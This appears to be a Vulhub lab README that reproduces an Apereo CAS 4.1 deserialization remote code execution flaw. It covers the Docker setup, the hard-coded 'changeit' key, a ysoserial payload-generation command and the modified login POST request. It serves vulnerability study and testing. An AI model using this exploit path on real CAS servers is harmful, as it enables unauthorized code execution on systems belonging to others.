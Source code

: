 # Apereo CAS 4.1 Deserialization RCE Vulnerability

Apereo CAS is a enterprise single sign-on system. There is an issue in CAS’s attempts to deserialize objects via the Apache Commons Collections library, which cased a RCE vulnerability.

Reference:

- https://apereo.github.io/2016/04/08/commonsvulndisc/

## Environment Setup

Execute following commands to start an Apereo CAS 4.1.5：

```
docker-compose up -d
```

After the Apereo CAS is started, visiting `http://your-ip:8080/cas/login` to see the login page.

## Exploit

The out-of-the-box default configuration of Apereo CAS before 4.1.7, is using a default secret key `changeit`:

```java
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

    // ...
```

We can try to use [Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack) to generate a encrypted [ysoserial](https://github.com/frohoff/ysoserial)'s serialized object:

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
```

![](1.png)

Then, intercept and modify the http request from login action of `/cas/login`, put the payload into `execution`'s value:

```
POST /cas/login HTTP/1.1
Host: your-ip
Content-Length: 2287
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-ip:8080/cas/login
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=24FB4BAAE1A66E8B76D521EE366B3E12; _ga=GA1.1.1139210877.1586367734
Connection: close

username=test&password=test&lt=LT-2-gs2epe7hUYofoq0gI21Cf6WZqMiJyj-cas01.example.org&execution=[payload]&_eventId=submit&submit=LOGIN
```

![](2.png)

Congrats, `touch /tmp/success` has been successfully executed:

![](3.png)
